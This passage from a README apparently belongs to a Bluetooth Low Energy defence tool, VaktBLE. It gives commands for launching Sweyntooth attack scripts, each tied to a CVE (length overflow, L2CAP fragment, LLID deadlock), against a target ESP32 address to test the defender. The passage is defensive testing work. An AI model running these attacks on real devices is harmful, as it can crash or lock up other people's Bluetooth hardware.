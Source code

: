 
You can watch VaktBLE Portable setup in action in the following video:

[![VaktBLE demo](AnchoredSetup/docs/thumbnail.png)](https://www.youtube.com/watch?v=RhDDp_HExsk)


### 4.1 Launching Sweyntooth Attacks

Launching Sweyntooth attacks is done via a Python3 virtual enviroment, such enviroment can be activated as follows:

```shell
cd $HOME/vaktble-ble-defender/Attacks/Sweyntooth
source venv/bin/activate
```

Next, you can launch the attacks in a new terminal within the directory as follows:

```shell
export ADDR=c8:c9:a3:d3:65:1e # Set target BDAddress here (ESP32)
./link_layer_length_overflow.py $ADDR # CVE-2019-16336 - Link Layer Length Overflow
./Microchip_invalid_lcap_fragment.py $ADDR # CVE-2019-19195 - Invalid L2cap fragment
./llid_deadlock.py $ADDR # CVE-2019-17060 - LLID Deadlock
./Microchip_invalid_lcap_fragment.py $ADDR # CVE-2019-17517 - Truncated L2CAP
```

Once we launched both VaktBLE and an attack, the output should be similar as below:
<div>
  <div align="center">